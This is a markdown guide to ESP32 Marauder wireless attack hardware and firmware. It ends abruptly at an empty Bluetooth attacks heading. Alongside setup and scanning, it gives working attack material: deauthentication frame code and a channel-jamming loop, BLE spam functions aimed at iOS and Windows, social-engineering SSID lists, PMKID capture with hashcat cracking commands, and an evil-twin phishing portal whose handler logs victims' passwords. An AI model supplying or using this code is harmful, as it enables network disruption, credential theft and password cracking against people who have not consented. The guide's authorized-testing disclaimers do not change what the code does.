

# WiFi Marauder Guide
## Professional Wireless Security Testing with ESP32 Hardware

> **For:** Security professionals, wireless penetration testers, researchers, and enthusiasts  
> **Last Updated:** November 2025  
> **Based on:** ESP32 Marauder firmware v0.13.10+, real-world testing scenarios  
> **Skill Level:** Intermediate to Advanced wireless security  

---

## Table of Contents

1. [Executive Overview](#executive-overview)
2. [Hardware Options & Selection](#hardware-options--selection)
3. [Firmware Installation & Setup](#firmware-installation--setup)
4. [Core Features & Capabilities](#core-features--capabilities)
5. [WiFi Attack Techniques](#wifi-attack-techniques)
6. [Bluetooth & BLE Operations](#bluetooth--ble-operations)
7. [GPS & Wardriving Integration](#gps--wardriving-integration)
8. [Advanced Attack Scenarios](#advanced-attack-scenarios)
9. [Integration with External Tools](#integration-with-external-tools)
10. [Custom Payload Development](#custom-payload-development)
11. [Detection & Defense Strategies](#detection--defense-strategies)
12. [Legal Framework & OPSEC](#legal-framework--opsec)
13. [Troubleshooting & Optimization](#troubleshooting--optimization)
14. [Community Resources & Development](#community-resources--development)

---

## Executive Overview

### What is WiFi Marauder?

The **ESP32 Marauder** is an advanced wireless security testing platform built on ESP32 microcontrollers. Created by **justcallmekoko**, it transforms affordable hardware into a powerful toolkit for:

- 🔍 **WiFi reconnaissance** and network discovery
- 📡 **Packet sniffing** and PCAP capture
- ⚡ **Deauthentication attacks** for security testing
- 📱 **Bluetooth/BLE** scanning and exploitation
- 🗺️ **GPS-enabled wardriving** with location tracking
- 💾 **SD card logging** for extended capture sessions
- 🎯 **Targeted attacks** against specific devices

### Why Use Marauder?

**Advantages over traditional tools**:
- **Portable**: Fits in your pocket, battery-powered
- **Affordable**: $50-150 vs. $500+ for commercial tools
- **Versatile**: WiFi, Bluetooth, GPS in one device
- **Expandable**: Open-source firmware, active development
- **Educational**: Learn wireless protocols hands-on
- **Covert**: Small form factor for authorized testing

**Comparison to similar tools**:

| Feature | Marauder | WiFi Pineapple | HackRF One | Flipper Zero | Pwnagotchi |
|---------|----------|----------------|------------|--------------|------------|
| Price | $50-150 | $200-400 | $350+ | $170 | $50-100 |
| WiFi Attacks | ✅ Full | ✅ Full | ⚠️ Limited | ⚠️ Basic | ✅ Passive |
| Bluetooth | ✅ Yes | ❌ No | ✅ SDR | ✅ Yes | ❌ No |
| GPS | ✅ Optional | ❌ No | ❌ No | ❌ No | ✅ Optional |
| Portability | ✅ Excellent | ⚠️ Good | ⚠️ Fair | ✅ Excellent | ✅ Excellent |
| Battery | ✅ Built-in | ⚠️ External | ❌ No | ✅ Built-in | ✅ Built-in |
| AI/ML | ❌ No | ❌ No | ❌ No | ❌ No | ✅ Yes |

### Core Capabilities

**Offensive Capabilities**:
- Deauthentication flooding (targeted & broadcast)
- Beacon spam with custom SSIDs
- Probe request sniffing
- PMKID capture for WPA2 cracking
- Evil twin AP creation
- Rickroll beacon flood
- Bluetooth device tracking
- BLE advertisement spoofing

**Defensive/Analysis**:
- Signal strength mapping
- Channel utilization analysis
- Client device enumeration
- Rogue AP detection
- Packet capture to PCAP
- Real-time spectrum analysis
- GPS-tagged wardrive logs

### Legal & Ethical Framework

⚠️ **CRITICAL WARNING**: 
- **ONLY** test networks you own or have written authorization to test
- Unauthorized network attacks are **illegal** in most jurisdictions
- Violations can result in criminal charges and civil liability
- This guide is for **educational and authorized testing only**

---

## Hardware Options & Selection

### Official Marauder Hardware

#### Option 1: [Flipper Zero WiFi Dev Board ($50)](https://shop.flipperzero.one/products/wifi-devboard?srsltid=AfmBOoqSbrNP2vvB_iic8012Wiv8qv1YBJMWQ47SsQ9-UX2YRiK5BRB8)

**Specifications**:
- ESP32-S2 processor
- 2.4GHz WiFi only
- No Bluetooth
- No GPS
- Powered by Flipper Zero

**Best for**: Flipper Zero owners wanting WiFi capabilities

**Setup**: Plug into Flipper's GPIO header, flash Marauder firmware

#### Option 2: [ESP32 Marauder v6.1 ($80-120)](https://justcallmekokollc.com/products/esp32-marauder-v6)

**Specifications**:
- ESP32-WROOM-32 module
- 2.4GHz WiFi b/g/n
- Bluetooth Classic + BLE
- TFT display (240x135)
- SD card slot
- 3 tactile buttons
- 1000mAh battery

**Best for**: Standalone portable operations

**Where to buy**: 
- Official: [justcallmekoko's shop](https://justcallmekokollc.com/)
- [Tindie marketplace](https://www.tindie.com/stores/justcallmekoko/)

#### Option 3: [ESP32 Marauder Mini ($60-80)](https://justcallmekokollc.com/products/marauder-mini)

**Specifications**:
- ESP32-WROOM-32
- Smaller form factor
- OLED display (128x64)
- No SD card
- 500mAh battery

**Best for**: Covert testing, pocket carry

#### Option 4: ESP32 Marauder Kit ($100-150)

**Specifications**:
- Everything in v6.1 PLUS:
- GPS module (NEO-6M/NEO-8M)
- External antenna connectors
- Larger battery (2000mAh)
- Protective case

**Best for**: Professional pentesting, wardriving

### DIY Build Options

#### Budget Build (~$30)

**Components**:
```
- ESP32 DevKit v1 ($8-12)
- SSD1306 OLED 128x64 ($5)
- Micro SD card module ($3)
- 3x pushbuttons ($2)
- 18650 battery holder ($3)
- 18650 battery ($5)
- Jumper wires ($3)
- Breadboard or perfboard ($3)
```

**Wiring Diagram**:
```
ESP32 Pin → Component
GPIO 5   → SD Card CS
GPIO 18  → SD Card SCK
GPIO 19  → SD Card MISO
GPIO 23  → SD Card MOSI
GPIO 21  → OLED SDA
GPIO 22  → OLED SCL
GPIO 0   → Button UP (with 10k pull-up)
GPIO 14  → Button DOWN (with 10k pull-up)
GPIO 35  → Button SELECT (with 10k pull-up)
GPIO 16  → GPS TX (optional)
GPIO 17  → GPS RX (optional)
3.3V     → VCC (all modules)
GND      → GND (all modules)
```

#### Advanced Build (~$80)

**Components**:
```
- ESP32-WROVER (4MB PSRAM) ($15)
- ILI9341 TFT Display 2.8" ($15)
- NEO-8M GPS module ($20)
- SD card module ($3)
- TP4056 charging circuit ($2)
- 3000mAh LiPo battery ($10)
- External antenna + U.FL ($8)
- Custom PCB ($10)
- 3D printed case ($5)
```

**Custom PCB Design Considerations**:
- Use proper RF layout techniques
- Keep WiFi antenna area clear of copper
- Add ESD protection on USB
- Include battery protection circuit
- Use thick traces for power lines

### Antenna Modifications

#### Stock Antenna Limitations

ESP32 PCB antennas have ~2dBi gain and limited range (30-50m typical).

#### External Antenna Upgrade

**Required Materials**:
- [U.FL/IPEX Connector](https://a.co/d/06hbEJF)
- [RG178 Pigtail Cable (6-12 inches)](https://a.co/d/1FIogSV)
- [2.4GHz Antenna (5-9dBi recommended)](https://a.co/d/aHu3Oj4)
- Soldering equipment

**Modification Process**:
1. **Identify antenna section** on ESP32 module
2. **Carefully remove** 0Ω resistor connecting to PCB antenna
3. **Rotate resistor 90°** to disconnect PCB antenna
4. **Solder U.FL connector** center pin to antenna feed point
5. **Solder shield** to ground plane
6. **Verify with multimeter** (center to antenna pad, shield to ground)
7. **Apply hot glue** for mechanical stability

**Antenna Options**:

| Type | Gain | Range | Pattern | Use Case |
|------|------|-------|---------|----------|
| Rubber Duck | 3-5dBi | 100-200m | Omnidirectional | Portable ops |
| Panel | 9-14dBi | 300-500m | Directional 60° | Targeted scanning |
| Yagi | 12-18dBi | 500m-1km | Directional 30° | Long range |
| Cantenna | 12-15dBi | 400-800m | Directional 45° | DIY option |
| Patch | 8-10dBi | 200-400m | Directional 70° | Wall mount |

### GPS Module Integration

#### Hardware Selection

**NEO-6M (Budget $8-15)**:
```
Accuracy: 2.5m CEP
Channels: 50
Update Rate: 5Hz max
Cold Start: 27s
Protocol: NMEA 0183
```

**NEO-8M (Recommended $15-25)**:
```
Accuracy: 2.0m CEP
Channels: 72
Update Rate: 10Hz
Cold Start: 26s
Concurrent: GPS + GLONASS
Protocol: NMEA 0183/UBX
```

**NEO-M9N (Premium $40-60)**:
```
Accuracy: 1.5m CEP
Channels: 92
Update Rate: 25Hz
Cold Start: 24s
Concurrent: GPS + GLONASS + Galileo + BeiDou
Protocol: NMEA 0183/UBX/RTCM
```

**Wiring Configuration**:
```cpp
// GPS connections
GPS VCC  → 3.3V or 5V (check module)
GPS GND  → GND
GPS TX   → ESP32 GPIO16 (RX2)
GPS RX   → ESP32 GPIO17 (TX2)

// Software serial setup
HardwareSerial GPS(2);
GPS.begin(9600, SERIAL_8N1, 16, 17);
```

---

## Firmware Installation & Setup

### Prerequisites

**Software Requirements**:
```bash
# Python and tools
python3 --version  # 3.7 or higher
pip3 install esptool pyserial

# USB drivers (OS-specific)
# Windows: CH340/CP2102 drivers
# macOS: Built-in or SiLabs drivers
# Linux: Usually built-in

# Git for source code
git --version
```

### Firmware Download Options

#### Pre-compiled Binaries (Recommended for beginners)

```bash
# Download latest release
wget https://github.com/justcallmekoko/ESP32Marauder/releases/latest/download/esp32_marauder_v0_13_10_flipper.bin
# or
wget https://github.com/justcallmekoko/ESP32Marauder/releases/latest/download/esp32_marauder_v0_13_10_old_hardware.bin
# or
wget https://github.com/justcallmekoko/ESP32Marauder/releases/latest/download/esp32_marauder_v0_13_10_new_hardware.bin
```

#### Source Code (For development)

```bash
# Clone repository
git clone https://github.com/justcallmekoko/ESP32Marauder.git
cd ESP32Marauder

# Switch to specific version
git checkout v0.13.10
```

### Flashing Methods

#### Method 1: Web Flasher (Easiest)

1. **Navigate to**: [https://esp.huhn.me/ or https://espwebtools.github.io/esp-web-flasher/](https://esp.huhn.me/ or https://espwebtools.github.io/esp-web-flasher/)
2. **Connect** ESP32 via USB
3. **Select** serial port when prompted
4. **Choose** firmware file
5. **Flash** and wait for completion

#### Method 2: Marauder Flasher (Windows)

```powershell
# Download Marauder Flasher
Invoke-WebRequest -Uri "https://github.com/justcallmekoko/ESP32Marauder/releases/latest/download/MarauderFlasher.exe" -OutFile MarauderFlasher.exe

# Run with admin privileges
.\MarauderFlasher.exe

# Select:
# 1. COM port
# 2. Hardware version
# 3. Click "Flash"
```

#### Method 3: esptool.py (Cross-platform)

**Basic Flash**:
```bash
# Identify port
ls /dev/tty* | grep -E 'USB|ACM'  # Linux/Mac
# or
mode  # Windows (look for COM ports)

# Set variables
PORT=/dev/ttyUSB0  # Adjust for your system
FIRMWARE=esp32_marauder_v0_13_10_new_hardware.bin

# Erase flash (clean slate)
esptool.py --chip esp32 --port $PORT erase_flash

# Flash firmware
esptool.py --chip esp32 --port $PORT --baud 921600 \
  --before default_reset --after hard_reset write_flash \
  -z --flash_mode dio --flash_freq 80m --flash_size 4MB \
  0x10000 $FIRMWARE
```

**Advanced Flash with Partitions**:
```bash
# For custom builds with specific partition scheme
esptool.py --chip esp32 --port $PORT --baud 921600 \
  --before default_reset --after hard_reset write_flash \
  -z --flash_mode dio --flash_freq 80m --flash_size 4MB \
  0x1000 bootloader.bin \
  0x8000 partitions.bin \
  0xe000 boot_app0.bin \
  0x10000 esp32_marauder.ino.bin \
  0x210000 spiffs.bin  # Optional SPIFFS data
```

#### Method 4: Arduino IDE (For development)

**Setup Arduino IDE**:
```
1. Install Arduino IDE 2.x
2. File → Preferences → Additional Board URLs:
   https://raw.githubusercontent.com/espressif/arduino-esp32/gh-pages/package_esp32_index.json
3. Tools → Board Manager → Install "esp32" by Espressif
4. Install required libraries via Library Manager:
   - LinkedList by Ivan Seidel
   - ArduinoJson by Benoit Blanchon
   - TFT_eSPI by Bodmer (for TFT displays)
   - U8g2 by Oliver (for OLED displays)
   - TinyGPS++ by Mikal Hart
   - ESP32 BLE Arduino by Neil Kolban
```

**Board Configuration**:
```
Board: "ESP32 Dev Module"
Upload Speed: 921600
CPU Frequency: 240MHz (WiFi/BT)
Flash Frequency: 80MHz
Flash Mode: QIO
Flash Size: 4MB (32Mb)
Partition Scheme: Minimal SPIFFS (Large APP with OTA)
PSRAM: Disabled (or Enabled for WROVER)
```

**Compile and Upload**:
```cpp
// Modify configs/configs.h before compiling
#define MARAUDER_MINI  // or MARAUDER_V4, MARAUDER_V6, etc.
#define HAS_GPS
#define HAS_SD
#define HAS_SCREEN

// Compile: Ctrl+R
// Upload: Ctrl+U
```

### Initial Configuration

#### Serial Connection

```bash
# Connect via serial terminal
screen $PORT 115200  # Linux/Mac
# or
putty -serial $PORT -sercfg 115200  # Windows

# You should see boot messages:
# ESP32 Marauder v0.13.10
# Made by: justcallmekoko
# With help from: WillStunForFood
```

#### First Boot Menu Navigation

```
Main Menu Structure:
├── WiFi
│   ├── Scan
│   │   ├── Scan APs
│   │   ├── Scan Stations
│   │   └── Scan Randomized
│   ├── Attack
│   │   ├── Deauth
│   │   ├── Beacon Spam
│   │   ├── Probe Flood
│   │   └── Rick Roll
│   ├── Sniff
│   │   ├── Beacon Sniff
│   │   ├── Probe Sniff
│   │   ├── PMKID Sniff
│   │   └── PCAP
│   └── AP
│       ├── Evil Twin
│       └── Captive Portal
├── Bluetooth
│   ├── Scan
│   ├── Spam
│   └── Sour Apple
├── Settings
│   ├── WiFi Settings
│   ├── Display Settings
│   └── Device Info
└── Reboot
```

#### Essential Settings Configuration

**Configure via Menu**:
```
Settings → WiFi Settings:
- Channel: Auto (or specific 1-14)
- Scan Speed: Fast/Normal/Slow
- Attack Timeout: 0 (continuous) or seconds
- MAC Randomization: Enable for stealth

Settings → Display Settings:
- Brightness: 50-100%
- Rotation: 0/90/180/270
- Font Size: Small/Medium/Large
```

**SD Card Setup** (if equipped):
```bash
# Format SD card as FAT32
# Create folder structure:
/pcap/        # Packet captures
/logs/        # Scan logs
/gps/         # GPS logs
/evil_twin/   # Captive portal files
```

---

## Core Features & Capabilities

### WiFi Scanning

#### Access Point Scanning

**Purpose**: Enumerate visible WiFi networks

**Menu**: WiFi → Scan → Scan APs

**Data Collected**:
- SSID (network name)
- BSSID (MAC address)
- Channel (1-14)
- RSSI (signal strength)
- Encryption type (Open/WEP/WPA/WPA2/WPA3)
- Hidden networks

**Output Format** (on SD card):
```json
{
  "scan_type": "ap",
  "timestamp": "2025-11-04T10:30:45",
  "results": [
    {
      "ssid": "HomeNetwork",
      "bssid": "AA:BB:CC:DD:EE:FF",
      "channel": 6,
      "rssi": -45,
      "encryption": "WPA2"
    }
  ]
}
```

#### Station Scanning

**Purpose**: Identify connected client devices

**Menu**: WiFi → Scan → Scan Stations

**Data Collected**:
- Client MAC addresses
- Associated AP BSSID
- Signal strength
- Probe requests

**Use Cases**:
- Device enumeration
- Tracking specific devices
- Identifying vulnerable clients

#### Combined Scanning

**Purpose**: Simultaneous AP and station discovery

**Process**:
```
1. Channel hop across 2.4GHz spectrum
2. Listen for beacons (APs)
3. Capture probe requests (clients)
4. Log associations
5. Build network map
```

### Packet Sniffing

#### Beacon Sniffing

**Purpose**: Passive collection of AP beacons

**Configuration**:
```cpp
// In source code
#define BEACON_SNIFF_BUFFER_SIZE 50
#define BEACON_TIMEOUT_MS 10000
```

**Data Analysis**:
- Track SSID changes
- Monitor channel switches
- Detect rogue APs
- Map AP locations (with GPS)

#### Probe Request Sniffing

**Purpose**: Capture client device probe requests

**Privacy Implications**:
- Reveals previously connected networks
- Can track device movement
- Some devices use MAC randomization

**Captured Data**:
```
Timestamp: 2025-11-04 10:45:32
Source MAC: 11:22:33:44:55:66
Probed SSID: "StarbucksWiFi"
Signal: -67 dBm
Sequence: 1234
```

#### PMKID Capture

**Purpose**: Capture WPA2 handshake PMKIDs for offline cracking

**Process**:
1. Monitor for EAPOL frames
2. Extract PMKID from message 1
3. Save to file for hashcat
4. No client needed (unlike 4-way handshake)

**Hashcat Format**:
```
PMKID*BSSID*STATION*ESSID
2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf0e761f4*ed487162465a774bfba60eb603a39f3a
```

**Cracking Command**:
```bash
hashcat -m 22000 pmkid.hash wordlist.txt
```

### Attack Capabilities

#### Deauthentication Attacks

**Purpose**: Force clients to disconnect from AP

**Types**:
1. **Targeted**: Specific client from specific AP
2. **Broadcast**: All clients from specific AP
3. **Random**: Random clients from random APs

**Configuration**:
```cpp
// Attack parameters
uint8_t deauth_reason = 1;  // Unspecified reason
uint16_t deauth_packets = 100;  // Packets to send
uint32_t deauth_delay = 0;  // Delay between packets (ms)
```

**Detection Signatures**:
- Rapid deauth frames
- Spoofed source addresses
- Unusual reason codes
- Missing encryption

#### Beacon Spam

**Purpose**: Create multiple fake APs

**Menu**: WiFi → Attack → Beacon Spam

**Options**:
```
List Type:
- Random: Generate random SSIDs
- Custom: User-defined list
- Rickroll: Classic rickroll SSIDs
- Funny: Humorous network names

Count: 1-50 simultaneous beacons
```

**Custom List Example** (/sd/ssids.txt):
```
Free_WiFi
Virus_Distribution_Network
NSA_Surveillance_Van_3
Pretty_Fly_for_a_WiFi
Tell_My_WiFi_Love_Her
```

#### Probe Request Flooding

**Purpose**: Flood airspace with probe requests

**Impact**:
- Overload AP processing
- Trigger IDS alerts
- Network performance testing

**Configuration**:
```cpp
#define PROBE_FLOOD_SSID "TestNetwork"
#define PROBE_FLOOD_COUNT 1000
#define PROBE_FLOOD_DELAY 10  // ms
```

### Bluetooth Operations

#### Classic Bluetooth Scanning

**Menu**: Bluetooth → Scan

**Data Collected**:
- Device name
- MAC address
- Class of device
- RSSI
- Manufacturer

**Output Example**:
```
Device: iPhone
MAC: AA:BB:CC:DD:EE:FF
Class: Phone/Smartphone
RSSI: -55 dBm
Vendor: Apple Inc.
```

#### BLE Advertisement Scanning

**Purpose**: Detect Bluetooth Low Energy devices

**Detected Devices**:
- Fitness trackers
- Smart watches
- Beacons (iBeacon, Eddystone)
- IoT devices
- AirTags

**Data Structure**:
```cpp
struct BLEDevice {
    String address;
    String name;
    int rssi;
    String manufacturerData;
    String serviceUUIDs[];
};
```

#### Bluetooth Attacks

**Sour Apple** (iOS disruption):
```cpp
// Floods iOS devices with pairing requests
void sourAppleAttack() {
    for(int i = 0; i < 100; i++) {
        BLEAdvertising *pAdvertising = BLEDevice::getAdvertising();
        pAdvertising->setManufacturerData(generateAppleData());
        pAdvertising->start();
        delay(100);
        pAdvertising->stop();
    }
}
```

**SwiftPair Spam** (Windows):
```cpp
// Triggers Windows Swift Pair popups
void swiftPairSpam() {
    // Generate Microsoft Swift Pair advertisement
    uint8_t packet[] = {
        0x06, 0xFF, 0x00, 0x06,
        0x03, 0x00, 0x80, 0x00
    };
    esp_ble_gap_config_adv_data_raw(packet, sizeof(packet));
}
```

---

## WiFi Attack Techniques

### Pre-Attack Reconnaissance

#### Network Mapping

**Objective**: Build complete picture of wireless environment

**Process**:
```bash
# 1. Initial sweep
WiFi → Scan → Scan APs
# Document all networks

# 2. Client identification
WiFi → Scan → Scan Stations
# Map clients to APs

# 3. Channel analysis
Settings → WiFi Settings → Channel → Auto
# Identify least congested channels

# 4. Signal mapping (with GPS)
# Walk perimeter while scanning
# Creates heat map of coverage
```

**Intelligence Gathering Checklist**:
- [ ] All SSIDs documented
- [ ] Channel distribution mapped
- [ ] Client devices identified
- [ ] Signal strengths recorded
- [ ] Encryption types noted
- [ ] Hidden networks discovered
- [ ] Probe requests logged

#### Target Selection

**Criteria for Testing**:
```
Priority 1: Open networks (no encryption)
Priority 2: WEP networks (broken encryption)
Priority 3: WPA2 Personal (PSK attacks possible)
Priority 4: WPA2 Enterprise (complex attacks)
Priority 5: WPA3 (limited attack surface)
```

**Target Profile Example**:
```json
{
  "ssid": "TestNetwork",
  "bssid": "AA:BB:CC:DD:EE:FF",
  "channel": 6,
  "encryption": "WPA2",
  "clients": 3,
  "signal": -45,
  "notes": "Home router, multiple IoT devices"
}
```

### Deauthentication Attacks (Advanced)

#### Targeted Client Deauth

**Scenario**: Force specific device offline

**Setup**:
```
1. WiFi → Scan → Scan Stations
2. Select target client
3. WiFi → Attack → Deauth → Targeted
4. Select client and AP
5. Start attack
```

**Technical Details**:
```cpp
// Deauth frame structure
uint8_t deauth_frame[] = {
    0xC0, 0x00,  // Frame control
    0x00, 0x00,  // Duration
    // Destination MAC (client)
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    // Source MAC (spoofed AP)
    0xAA, 0xBB, 0xCC, 0xDD, 0xEE, 0xFF,
    // BSSID (AP)
    0xAA, 0xBB, 0xCC, 0xDD, 0xEE, 0xFF,
    0x00, 0x00,  // Sequence
    0x01, 0x00   // Reason code
};
```

**Reason Codes**:
```
1: Unspecified
2: Previous auth invalid
3: Station leaving
4: Inactivity timeout
5: AP overloaded
6: Class 2 frame from non-auth station
7: Class 3 frame from non-assoc station
8: Station leaving BSS
```

#### Mass Deauthentication

**Purpose**: Clear all clients from network

**Use Cases**:
- Force WPA handshake capture
- Test client resilience
- Demonstrate DoS vulnerability

**Execution**:
```
WiFi → Attack → Deauth → Broadcast
Select target AP
Duration: 0 (continuous)
[SELECT] to start
[B] to stop
```

**Monitor Impact**:
- Watch for client disconnections
- Check for automatic reconnections
- Note any devices that resist

#### Selective Channel Jamming

**Advanced Technique**: Deauth multiple APs on same channel

**Code Modification**:
```cpp
void channelJam(uint8_t channel, uint32_t duration) {
    wifi_set_channel(channel);
    uint32_t start = millis();
    
    while(millis() - start < duration) {
        for(int i = 0; i < ap_list.size(); i++) {
            if(ap_list[i].channel == channel) {
                sendDeauth(ap_list[i].bssid, BROADCAST_MAC);
            }
        }
        delay(10);
    }
}
```

### Beacon Flooding Attacks

#### Rick Roll Attack

**Purpose**: Flood with humorous SSIDs

**Built-in SSIDs**:
```
Never_Gonna_Give_You_Up
Never_Gonna_Let_You_Down
Never_Gonna_Run_Around
Desert_You
Never_Gonna_Make_You_Cry
Never_Gonna_Say_Goodbye
Never_Gonna_Tell_A_Lie
And_Hurt_You
```

**Execution**:
```
WiFi → Attack → Rick Roll
Count: 8 (all lyrics)
[SELECT] to start
```

#### Custom Beacon Lists

**Creating Custom Lists** (/sd/beacons.txt):
```
FBI_Surveillance_Van_42
Definitely_Not_A_Virus
Password_is_Password
Click_Here_For_Viruses
Free_Public_WiFi
Honeypot_Network
Not_The_NSA
Loading...
Error_404_WiFi_Not_Found
```

**Advanced Beacons with Unicode**:
```cpp
String beacons[] = {
    "📶_Free_Internet",
    "🔒_Secure_Network",
    "⚠️_Warning",
    "🚫_No_Internet",
    "💰_Premium_WiFi"
};
```

#### Beacon Flooding for Social Engineering

**Targeted SSIDs**:
```
# Corporate mimicry
CompanyName_Guest
CompanyName_Corporate
CompanyName_BYOD

# Public space mimicry
Airport_Free_WiFi
Starbucks_WiFi
Hotel_Guest_Network

# Urgency/Fear
Emergency_Network_Only
COVID_Test_Results
IRS_Audit_WiFi
```

**Implementation**:
```cpp
void socialEngineeringBeacons() {
    String ssids[] = {
        "COVID_Vaccine_Registration",
        "Free_Netflix_Premium",
        "Win_iPhone_15_Pro",
        "Banking_Security_Update"
    };
    
    for(int i = 0; i < 4; i++) {
        broadcastBeacon(ssids[i], random_channel());
        delay(100);
    }
}
```

### PMKID Harvesting

#### Automated PMKID Collection

**Setup**:
```
WiFi → Sniff → PMKID
Channel: Auto (or specific)
Timeout: 0 (continuous)
[SELECT] to start
```

**What Happens**:
1. Sends association request to AP
2. AP responds with EAPOL M1
3. Extracts PMKID from RSN IE
4. Saves to /sd/pmkid/pmkid.txt

**Output Format**:
```
# PMKID*BSSID*STATION*ESSID
2582a8281bf9d4308d6f5731d0e61c61*aabbccddeeff*112233445566*TestNetwork
```

**Success Indicators**:
- "PMKID captured!" message
- LED flash (if equipped)
- File saved to SD card

#### Processing PMKIDs

**Transfer to Cracking Station**:
```bash
# Copy from SD card
cp /media/SD/pmkid/pmkid.txt ~/captures/

# Convert for hashcat if needed
hcxpcapngtool -o converted.22000 pmkid.txt

# Crack with hashcat
hashcat -m 22000 converted.22000 wordlist.txt -r rules/best64.rule
```

**Success Rates**:
- Home networks: 60-70% (weak passwords)
- Corporate: 10-20% (complex passwords)
- Guest networks: 40-50% (convenience passwords)

### Evil Twin Attacks

#### Basic Evil Twin Setup

**Requirements**:
- Target AP information
- SD card with portal files

**Process**:
```
1. Scan target network
   WiFi → Scan → Scan APs
   
2. Note target details:
   - SSID
   - Channel
   - Encryption type
   
3. Create Evil Twin:
   WiFi → AP → Evil Twin
   Select cloned SSID
   
4. Wait for clients
```

**Portal Files** (/sd/evil_twin/):
```html
<!-- index.html -->
<html>
<head>
    <title>Network Login</title>
    <style>
        body { font-family: Arial; margin: 40px; }
        input { margin: 10px 0; padding: 10px; width: 300px; }
    </style>
</head>
<body>
    <h2>WiFi Network Authentication</h2>
    <form action="/login" method="post">
        <input type="password" name="password" placeholder="Enter WiFi Password">
        <input type="submit" value="Connect">
    </form>
</body>
</html>
```

#### Advanced Captive Portal

**Features**:
- Custom branding
- Multi-language support
- Device fingerprinting
- Credential logging

**Enhanced Portal Structure**:
```
/sd/evil_twin/
├── index.html
├── login.html
├── success.html
├── error.html
├── style.css
├── logo.png
└── captured_creds.txt
```

**Credential Capture Code**:
```cpp
void handleLogin() {
    String password = webServer.arg("password");
    String username = webServer.arg("username");
    
    // Log credentials
    File credFile = SD.open("/evil_twin/creds.txt", FILE_APPEND);
    credFile.println("Time: " + getTime());
    credFile.println("User: " + username);
    credFile.println("Pass: " + password);
    credFile.println("MAC: " + getClientMAC());
    credFile.println("---");
    credFile.close();
    
    // Redirect to success page
    webServer.sendHeader("Location", "/success.html");
    webServer.send(302, "text/html", "");
}
```

---

## Bluetooth & BLE Operations

### Bluetooth Classic Operations

#### Device Discovery

**Menu**: Bluetooth → Scan → Classic

**Scan Parameters**:
```cpp
#define BT_SCAN_TIME 10  // seconds
#define BT_SCAN_MODE GAP_SCAN_MODE_GENERAL_DISCOVERY
#define BT_MAX_RESULTS 50
```

**Information Gathered**:
```
Device Name: Galaxy S23
MAC: AA:BB:CC:DD:EE:FF
COD: 0x5A020C (Phone/Smartphone)
RSSI: -62 dBm
Services: A2DP, AVRCP, HFP
Manufacturer: Samsung
```

#### Service Enumeration

**Common Services**:
```
0x1101: Serial Port
0x1103: Dialup Networking
0x1104: IrMC Sync
0x1105: OBEX Object Push
0x1106: OBEX File Transfer
0x110A: Audio Source
0x110B: Audio Sink
0x110C: A/V Remote Control
0x110E: A/V Remote Control
0x111F: Hands-Free Audio Gateway
0x1200: PnP Information
```

**Code for Service Discovery**:
```cpp
void discoverServices(esp_bd_addr_t address) {
    esp_spp_start_discovery(address);
    // Callback will receive service records
}

void bt_service_callback(esp_spp_cb_event_t event, esp_spp_cb_param_t *param) {
    if(event == ESP_SPP_DISCOVERY_COMP_EVT) {
        for(int i = 0; i < param->disc_comp.scn_num; i++) {
            Serial.printf("Service %d: Channel %d\n", 
                         i, param->disc_comp.scn[i]);
        }
    }
}
```

### BLE Operations

#### Advertisement Scanning

**Menu**: Bluetooth → Scan → BLE

**Advertisement Types**:
```
ADV_IND: Connectable undirected
ADV_DIRECT_IND: Connectable directed
ADV_SCAN_IND: Scannable undirected
ADV_NONCONN_IND: Non-connectable
SCAN_RSP: Scan response
```

**Parsed Data**:
```cpp
struct BLEAdvertisement {
    uint8_t type;
    uint8_t addr[6];
    String name;
    int8_t rssi;
    uint8_t manufacturerData[32];
    uint16_t appearance;
    int8_t txPower;
    std::vector<BLEUUID> serviceUUIDs;
};
```

#### iBeacon Detection

**iBeacon Format**:
```
Prefix: 0x4C00 (Apple)
Type: 0x02
Length: 0x15
UUID: 16 bytes
Major: 2 bytes
Minor: 2 bytes
TX Power: 1 byte
```

**Detection Code**:
```cpp
bool isIBeacon(uint8_t *data, size_t length) {
    return (length >= 25 &&
            data[0] == 0x4C && data[1] == 0x00 &&
            data[2] == 0x02 && data[3] == 0x15);
}

void parseIBeacon(uint8_t *data) {
    char uuid[37];
    sprintf(uuid, "%02X%02X%02X%02X-%02X%02X-%02X%02X-%02X%02X-%02X%02X%02X%02X%02X%02X",
            data[4], data[5], data[6], data[7],
            data[8], data[9], data[10], data[11],
            data[12], data[13], data[14], data[15],
            data[16], data[17], data[18], data[19]);
    
    uint16_t major = (data[20] << 8) | data[21];
    uint16_t minor = (data[22] << 8) | data[23];
    int8_t txPower = data[24];
    
    Serial.printf("iBeacon: %s Major:%d Minor:%d Power:%d\n", 
                  uuid, major, minor, txPower);
}
```

### Bluetooth Attacks

